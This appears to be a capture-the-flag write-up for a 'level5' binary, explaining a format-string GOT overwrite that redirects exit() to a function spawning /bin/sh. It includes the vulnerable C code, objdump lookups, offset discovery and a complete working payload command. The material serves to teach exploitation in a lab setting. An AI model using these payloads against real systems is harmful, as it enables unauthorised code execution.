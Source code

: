 # Code execution Redirect

We have a function n() calling a vulnerable printf and a function o() calling a /bin/sh.

The idea is to redirect the code execution do the function o().

We can't overwrite return address of n function because it exit at the end of the function

```c
void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  exit(1); //here
}
```

We’ll use a trick called GOT Overwrite.

## Theory

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of o(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

```bash
iobjdump -R ./level5 | grep exit                                                                          (main✱) 
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0

objdump -t ./level5 | grep o
080484a4 g     F .text	0000001e              o
```
Both addresses are find, now lets find the offset of the buffer:

```bash
./level5                                                                                                 (main✱) 
AAAA%x.%x.%x.%x.%x.
AAAA200.f7e26620.0.41414141.252e7825.

./level5                                                                                                 (main✱) 
AAAA%4$x
AAAA41414141
```

Offset of the buffer in the stack is `%4$x`. Lets try, write 4 byte in exit func:

```c
gef➤  r < <(python3 -c 'import sys; sys.stdout.buffer.write(b"\x38\x98\x04\x08" + b"%4$n")')
Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
```

Nice it seg at address 4, it mean we well overwrite !

## Payload

### Write larger data:

```py
0x0804 = 2052 (in decimal) -> 0x08049838 + 2 =  0x0804983a
0x84a4 = 33956 (in decimal) -> 0x08049838
```

Padding :

```py
2052 - 8 = 2044
33956 - 2052 = 31904
```

Payload : 

cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x38\x98\x04\x08" + b"\x3a\x98\x04\x08" + b"%2044x" + b"%5$hn" + b"%31904x" + b"%4$hn")') - | ./level5